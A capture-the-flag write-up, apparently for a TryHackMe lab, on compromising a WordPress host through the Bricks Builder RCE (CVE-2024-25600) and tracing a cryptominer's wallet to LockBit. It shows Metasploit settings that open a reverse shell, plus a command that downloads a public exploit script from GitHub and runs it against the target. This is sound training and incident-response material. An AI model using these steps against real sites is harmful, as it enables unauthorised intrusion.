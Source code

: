 **Category:** Web Exploitation / Malware Analysis  
**Difficulty:** Easy
**Objective:** Compromise a vulnerable WordPress instance, investigate persistence mechanisms, and attribute malicious activity to a real-world APT.

## 📝 Executive Summary

During this engagement, I successfully compromised a WordPress host running the vulnerable **Bricks Builder theme** (CVE-2024-25600).

Initial access was gained via an unauthenticated remote code execution vulnerability, which provided a **Meterpreter shell**. Further analysis revealed a **malicious persistence service** (`ubuntu.service`) that deployed a **cryptominer**.

Through analysis of the miner’s configuration (`inet.conf`), I identified a **Bitcoin wallet** used to collect illicit mining rewards. OSINT investigation linked the wallet to the **LockBit ransomware group**, a well-known APT.

**Impact:**

- Unauthorized code execution on the target.
- Evidence of illicit cryptomining.
- Attribution to a real-world ransomware group.

___
# 🔍 Technical Walkthrough

## 1. Initial Enumeration

The target hosted a WordPress site. Using `msfconsole`, I searched for vulnerabilities in the **Bricks Builder** theme:

```bash
msf6 > search bricks
```
The module `exploit/multi/http/wp_bricks_builder_rce` was identified as a recent unauthenticated RCE.

![Search Msfconsole](./images/01-mfsconsole.png.png)

___
## 2. Exploitation with Metasploit

Configured the module with:

```bash
set RHOSTS https://bricks.thm
set LHOST <attacker_ip>
set LPORT 1234
set RPORT 443
run
```
![Options Msfconsole](./images/02-mfoptions.png.png)

Result:

- WordPress 6.5 detected
- Bricks Builder theme v1.9.5 vulnerable
- **Meterpreter session opened**

![LS Msfconsole](./images/04-ls.png)

📌 First flag retrieved:

![Flag](./images/05-flag.png)

___
## 3. Limitations of Meterpreter

- `ps` command failed (restricted environment)
- Shell upgrade unsuccessful

To bypass this, I switched to the **public exploit script** for CVE-2024-25600:

```bash
wget https://raw.githubusercontent.com/Chocapikk/CVE-2024-25600/main/exploit.py
python3 exploit.py -u https://bricks.thm
```
This provided a **fully interactive shell**.

![Exploit](./images/06-exploit.png)

___
##  4. Investigating Persistence

Using `systemctl` to enumerate services:

```bash
systemctl | grep running
systemctl status ubuntu.service
```
Findings:

- Custom service → `ubuntu.service`
- Description → `TRYHACK3M`
- Executable → `/lib/NetworkManager/nm-inet-dialog`

![Service](./images/07-service.png)


This indicated a **malicious persistence mechanism**.

![Status](./images/08-status.png)

___
### 5. Miner Log Discovery

Listing the `/lib/NetworkManager/` directory revealed a suspicious config file:

```bash
inet.conf
```
![Miner Log](./images/09-miner_log.png)

Reading it showed mining logs and an encoded **ID string**.

```bash
cat /lib/NetworkManager/inet.conf
```

![Walltet](./images/10-wallet.png)

___
### 6. Wallet Extraction & Decoding

The encoded string was passed through **CyberChef** (Hex → Base64 decoding).

Recovered wallet address:

```bash
bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa
```

![CyberChef](./images/11-cyberchef.png)

To confirm which wallet was valid, i checked both addresses on blockchain.com.

![Blockchain](./images/12-blockchain.png)

___
### 7. Blockchain Analysis
Checking the wallet on blockchain.com confirmed it was valid.

- Active Bitcoin address
- Associated with large suspicious transactions

While investigating the wallet’s transactions, I identified a **large suspicious transaction**. Tracing it further revealed connections to another wallet:

![Suspicious](./images/13-suspicious.png)


Further OSINT linked related transactions to:

```bash
3zpTjxTNi7snk8sodgrfmdKao3DEn1nVJM
```

This address is publicly tied to the **LockBit ransomware group**.

![OSINT](./images/14-OSINT.png)


___
## 📌 Key Findings

| Category       | Finding                                        |
| -------------- | ---------------------------------------------- |
| Vulnerability  | CVE-2024-25600 (Bricks Builder RCE)            |
| Initial Access | Remote unauthenticated RCE → Meterpreter shell |
| Persistence    | Malicious systemd service `ubuntu.service`     |
| Malware        | Cryptominer binary `nm-inet-dialog`            |
| Config/Logs    | `/lib/NetworkManager/inet.conf`                |
| Wallet         | `bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa`   |
| Attribution    | Linked to **LockBit Ransomware Group**         |

___
## 🎯 Lessons Learned

- **CMS plugins/themes are high-risk** — patching must be enforced.
- Malicious persistence often masquerades as **system services**.
- Cryptominer configs can directly expose attacker **wallets**.
- OSINT analysis provides real-world **APT attribution**.

___
## ✅ Conclusion

The Bricks Heist machine demonstrated how an unpatched WordPress theme could lead to full system compromise, cryptominer deployment, and connections to real-world ransomware groups.

This exercise not only highlights exploitation and privilege escalation, but also integrates **threat intelligence analysis**, making it highly valuable for both red teaming and incident response skill development.

